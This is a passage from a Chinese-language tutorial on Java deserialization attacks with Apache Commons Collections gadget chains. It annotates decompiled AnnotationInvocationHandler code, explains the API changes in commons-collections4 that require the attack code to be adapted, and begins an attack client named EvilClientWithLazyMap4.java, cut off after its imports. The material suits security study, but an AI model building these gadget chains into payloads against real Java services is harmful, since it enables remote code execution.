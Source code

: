```java
    {
      throw new InvalidObjectException("Non-annotation type in annotation serial stream");
    }
    Map<String, Class<?>> memberTypes = annotationType.memberTypes();

    Map<String, Object> mv = new LinkedHashMap();
/*
 * 452行，对于8u232此时调用entrySet()的对象是局部变量streamVals，而不是成
 * 员变量this.memberValues。会两次经过此处，streamVals分别对应LazyMap、
 * $Proxy0。
 */
    for (Map.Entry<String, Object> memberValue : streamVals.entrySet())
    {
      String name = (String)memberValue.getKey();
      Object value = null;
      Class<?> memberType = (Class)memberTypes.get(name);
      if (memberType != null)
      {
        value = memberValue.getValue();
        if ((!memberType.isInstance(value)) && (!(value instanceof ExceptionProxy))) {
          value = new AnnotationTypeMismatchExceptionProxy(value.getClass() + "[" + value + "]").setMember(
            (Method)annotationType.members().get(name));
        }
      }
      mv.put(name, value);
    }
    UnsafeAccessor.setType(this, t);
    UnsafeAccessor.setMemberValues(this, mv);
  }
```

从8u72开始抛类似异常，参:

https://github.com/frohoff/ysoserial/issues/17

在此讨论中有人指出"ConcurrentHashMap+TiedMapEntry"利用链。

8.3.10) commons-collections4-4.0的变化

4.0的LazyMap删除了:

public static Map decorate(Map map, Transformer factory)

但4.0增加了:

public static <V, K> LazyMap<K, V> lazyMap(Map<K, V> map, Transformer<? super K, ? extends V> factory)

攻击代码需要相应修改。

8.3.11) EvilClientWithLazyMap4.java

使用4.0版本。

```java
*
 * javac -encoding GBK -g -cp "commons-collections4-4.0.jar" EvilClientWithLazyMap4.java
 */
import java.io.*;
import java.net.Socket;
import java.util.*;
import java.lang.reflect.*;
import java.lang.annotation.*;
/*
 * package名有变化
 */
import org.apache.commons.collections4.Transformer;
import org.apache.commons.collections4.functors.*;
```